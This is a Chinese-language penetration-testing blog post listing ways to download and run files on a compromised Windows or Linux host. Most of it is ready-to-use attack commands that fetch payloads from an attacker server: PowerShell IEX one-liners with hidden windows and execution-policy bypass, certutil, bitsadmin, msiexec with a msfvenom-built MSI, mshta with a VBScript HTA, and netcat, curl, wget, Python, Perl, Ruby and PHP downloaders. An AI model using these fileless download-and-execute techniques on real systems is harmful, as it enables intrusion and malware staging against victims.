---

title: Windows/Linux文件下载常用方法
top: true
cover: false
toc: true
mathjax: true
date: 2020-10-09 09:42:13
password:
summary:
tags: Web安全
categories: Web安全
---

---

###  一、前言

####  在渗透测试的环节中，我们有时会遇到一些需要上传文件的场景，比如在RCE的环节中，无法将文件进行写入；再比如说提权的时候，无法上传EXP文件；当然实际中的应用场景远不止此，这个时候我们就可以尝试利用Windows/Linux的一些命令、自带/第三方工具来进行下载的操作，注意目录一定要有写入权限才可以。


### 二、常见的文件下载方式

#### **(1) 自带命令/工具**

#### ***PowerShell（须大于 Server2003的Windows版本）：***

##### PowerShell是一种跨平台的任务自动化和配置管理框架，由命令行管理程序和脚本语言组成，与大多数接受并返回文本的 shell 不同，PowerShell构建在 .NET公共语言运行时 (CLR) 的基础之上，接受并返回.NET对象，这从根本上的改变引入了全新的自动化工具和方法。

##### 下载远程服务器文件到本地：

```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.10.11/evil.txt','eval.exe')
```


##### 无文件落地执行：

```
powershell -nop -w hidden -c "IEX ((New-Object Net.Webclient).DownloadString('http://192.168.10.11/eval.txt'))"
```




##### 无文件落地执行bypass：

```
powershell set-alias -name eval -value Invoke-Expression;eval(New-Object Net.WebClient).DownloadString('http://192.168.10.11/eval.txt')
```




 ##### 无文件落地执行bypass：

```
powershell -Nop -Exec Bypass -c "IEX ((New-Object Net.WebClient).DownloadString('http://192.168.10.11/eval.txt'))"
```




##### 参数说明：

+ IEX：Invoke-Expression 将字符串当作powershell代码执行

+ Set-Alias： 给powershell函数以及变量赋予别称

+ -Nop：等价于-Noprofile  不加载用户配置

+ -Non1：不进行交互

+ -Noexit：执行完不退出

+ -Nologo：执行时不显示Logo

+ -w hidden：等价于-WindowsStyle hidden ，隐藏执行命令窗口

+ -ep bypass：忽略执行策略文件

+ -c： 执行powershell 命令

  

####  ***certutil 命令行程序***（仅测试了03及以上）

##### certutil.exe是一个命令行程序，作为证书服务的一部分安装，你可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件，以及验证证书，密钥对和证书链。

##### 这里我们用到的参数如下：



##### 借助certutil程序的命令进行文件下载：

```
certutil -urlcache -split -f http://192.168.10.11/eval.txt test.exe
```




#### ***Bitsadmin工具：（Windows）***

##### BITSAdmin是一个命令行工具，可用于创建下载或上传并监视其进度，自windows7 以上版本内置bitsadmin，它可以在网络不稳定的状态下下载文件，出错会自动重试，在比较复杂的网络环境下，有着不错的性能。

##### 这里我们主要用到下面这个参数：



##### **实际应用**：

```
bitsadmin /transfer n http://192.168.10.11/eval.txt C:\evil.exe
```




#### ***FTP服务（Windows/Linux）：***

#### FTP(File Transfer Protocol，文件传输协议)是TCP/IP 协议组中的协议之一。FTP协议包括两个组成部分，其一为FTP服务器，其二为FTP客户端，其中FTP服务器用来存储文件，用户可以使用FTP客户端通过FTP协议访问位于FTP服务器上的资源。

##### 利用思路，先在远程服务器上起一个FTP服务，然后攻击机上去连接下载即可：







#### ***msiexec工具（Windows）：***

##### msiexec是windows自带的cmd工具，支持远程下载功能，攻击者可以将msi文件下载到服务器并执行，下面通过一个实例做演示说明，首先我们通过msfvenom来构造一个恶意的msi程序(这里以弹计算器为例，在实战中可以根据需要进行修改)，并启动一个简易HTTP服务：

##### Kali下生成一个.msi可执行文件

```
msfvenom -p windows/exec CMD='cmd.exe /c calc.exe' -f msi >eval.msi
```

##### 然后目标机上执行msiexec命令：

```
msiexec /q /i http://192.168.10.11/eval.msi
```




#### ***mshta工具（Windows/：***

##### mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件，我们可以在本地构建hta文件，之后通过目标主机的mshta来远程下载并执行，例如在本地创建以下hta文件：

```
<HTML>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD>
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c calc.exe" // 待执行的命令
self.close
</script>
<body>
Demo
</body>
</HEAD>
</HTML>
```


##### 之后在远程目标主机上执行以下命令实现下载执行操作，且无文件落地：

```
mshta http://192.168.10.11/evil.hta
```




##### 也可以使用CS来上线，生成一个hta木马，然后放到远程服务器，最后利用命令下载，即可无落地执行






**(2) 第三方服务/应用**

#### ***wget（Windows/Linux）***

##### wget 是一个从网络上自动下载文件的自由工具，支持通过 HTTP、HTTPS、FTP 三个最常见的 TCP/IP协议下载，并可以使用HTTP 代理。"wget" 这个名称来源于 “World Wide Web” 与 “get” 的结合。

```
wget http://192.168.10.11/eval.exe
```


#### ***curl（Windows/Linux）：***

##### curl 是一个利用URL语法在命令行下工作的文件传输工具，1997年首次发行，它支持文件上传和下载，所以是综合传输工具，但按传统，习惯称curl为下载工具，curl还包含了用于程序开发的libcurl。

```
curl http://192.168.10.11/eval.exe
```


#### ***netcat（Windows/Linux）：***

##### nc是一款安全工具，它还有其他的名字 Netcat， Ncat 可用来做端口扫描，端口转发，连接远程系统等。它是一款拥有多种功能的CLI 工具，可以用来在网络上读、写以及重定向数据，它被设计成可以被脚本或其他程序调用的可靠的后端工具，同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。当目标主机上安装了ncat是我们可以使用ncat来实现文件下载，当然这种场景在实战中少之又少~

##### **在远程服务器执行下列命令，eval.exe为要上传的文件：**

```
nc -lvp 4444 < eval.exe
```



##### **目标机执行**

```
nc  192.168.10.11 4444 >evil.exe
```




#### ***Python（Windows/Linux）：***

##### **Python是目前很受欢迎的主流脚本语言，当目标主机内安装了python时，我们可以在shell中使用python来实现远程文件下载：**


##### 进入交互环境：

```
Type "help", "copyright", "credits" or "license" for more information.
>>> import urllib2
>>> res = urllib2.urlopen('http://192.168.10.11/eval.exe')
>>> file= open('f.exe','w')
>>> file.write(res.read())
>>> file.close()
>>>
```




**(3) 编程语言**

#### ***Perl***：

**Perl是目前很受欢迎的主流脚本语言，linux主机一般都自带perl环境，我们可以在终端中使用vim创建 dowanload.pl 脚本，之后执行perl来实现远程文件下载：**

```
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://192.168.10.11/eval.txt","evil.exe");
```


##### 然后运行：

```
perl download.pl
```


#### ***Ruby：***

##### 当目标主机内安装了Ruby时，使用vim创建一个download.rb的文件

```
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("192.168.10.11") { |http|
r = http.get("/eval.txt")
open("eval.sh", "wb") { |file|
file.write(r.body)
}
}
```


#### ***PHP：***

##### **当目标主机内安装了PHP时，我们可以在终端使用vim来编辑一个PHP脚本，之后执行PHP来实现远程文件下载：**

```
<?php
 $data = @file("http://192.168.10.11/eval. txt");
        $lf = "eval.exe";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

##### **或者**

```
<?php
 $data = @file("http://192.168.10.11/eval.txt");
file_put_contents('eval.sh',$data);
?>
```


---


#### 本文内容参考自 https://xz.aliyun.com/t/7937 如有侵权，请联系删除！！！


